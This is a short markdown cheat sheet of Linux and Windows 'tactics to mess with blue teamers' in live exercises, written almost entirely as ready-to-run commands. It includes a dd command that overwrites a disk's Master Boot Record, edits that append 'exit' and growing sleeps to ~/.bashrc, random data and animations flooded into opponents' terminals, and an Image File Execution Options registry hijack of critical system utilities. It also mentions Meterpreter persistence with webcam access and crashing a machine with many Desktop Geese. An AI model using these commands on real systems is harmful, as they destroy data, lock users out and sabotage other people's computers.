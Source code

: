 A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.
tty # Retrieve TTY number (for redirection)
w   # Gives you you /dev/pts numbers

git clone https://github.com/klange/nyancat.git
cd nyancat
make
cd src
./nyancat > /dev/pts/<pts-num-of-opponent>

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/[pts-num-of-opponent] # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 

cat /dev/random > /dev/[pts-num-of-opponent] # write random stuff to your opponent's terminal. The brackets are just to show you that the tty-num is a parameter

telnet towel.blinkenlights.nl > /dev/[pts-num-of-opponent]

export PROMPT_CMD="clear && echo 'You didn't say the magic word!'"
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<CRITICAL SYSTEM UTILITY OF YOUR CHOICE>" /v "Debugger" /t REG_SZ /d "\"<GOOFY IMAGE FILE OR OTHER>" /z" /f # Replaces the executables with a "debugger"... or a weird image of your choosing. 

Desktop Goose 👀
```

Persistence with [[Meterpreter]] affords many options like `webcam_chat`. 

***DoS WITH GEESE***
You can download and install the [Desktop Goose](https://samperson.itch.io/desktop-goose/download/eyJleHBpcmVzIjoxNzM5NDE2Mjg0LCJpZCI6NTU4MjE4fQ%3d%3d.RdlBCXbB6sF2fBp3tD9%2f19MhrZs%3d) on Windows and Mac. Running ten or more Desktop Geese may crash the adversary's computer.
